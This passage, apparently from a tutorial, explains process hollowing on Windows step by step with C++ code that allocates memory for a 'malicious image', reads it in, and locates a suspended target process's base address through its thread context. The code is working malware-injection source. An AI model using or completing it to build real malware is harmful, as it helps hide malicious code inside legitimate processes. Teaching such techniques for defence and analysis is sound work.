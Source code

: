 Once a handle for the malicious image is obtained, memory must be allocated to the local process using `VirtualAlloc`. `GetFileSize` is also used to retrieve the size of the malicious image for `dwSize`.

```cpp
DWORD maliciousFileSize = GetFileSize(
	hMaliciousCode, // Handle of malicious image
	0 // Returns no error
);

PVOID pMaliciousImage = VirtualAlloc(
	NULL,
	maliciousFileSize, // File size of malicious image
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x04 // Enables read/write access (PAGE_READWRITE)
);
```

Now that memory is allocated to the local process, it must be written. Using the information obtained from previous steps, we can use `ReadFile` to write to local process memory.
```cpp
DWORD numberOfBytesRead; // Stores number of bytes read

if (!ReadFile(
	hMaliciousCode, // Handle of malicious image
	pMaliciousImage, // Allocated region of memory
	maliciousFileSize, // File size of malicious image
	&numberOfBytesRead, // Number of bytes read
	NULL
	)) {
	cout << "[!] Unable to read Malicious file into memory. Error: " <<GetLastError()<< endl;
	TerminateProcess(target_pi->hProcess, 0);
	return 1;
}

CloseHandle(hMaliciousCode);
```


At step three, the process must be “hollowed” by un-mapping memory. Before un-mapping can occur, we must identify the parameters of the API call. We need to identify the location of the process in memory and the entry point. The CPU registers `EAX` (entry point), and `EBX` (PEB location) contain the information we need to obtain; these can be found by using `GetThreadContext`. Once both registers are found, `ReadProcessMemory` is used to obtain the base address from the `EBX` with an offset (`0x8`), obtained from examining the PEB.
```cpp
c.ContextFlags = CONTEXT_INTEGER; // Only stores CPU registers in the pointer
GetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to store retrieved context
); // Obtains the current thread context

PVOID pTargetImageBaseAddress; 
ReadProcessMemory(
	target_pi->hProcess, // Handle for the process obtained from the PROCESS_INFORMATION structure
	(PVOID)(c.Ebx + 8), // Pointer to the base address
	&pTargetImageBaseAddress, // Store target base address 
	sizeof(PVOID), // Bytes to read 
	0 // Number of bytes out
);
```
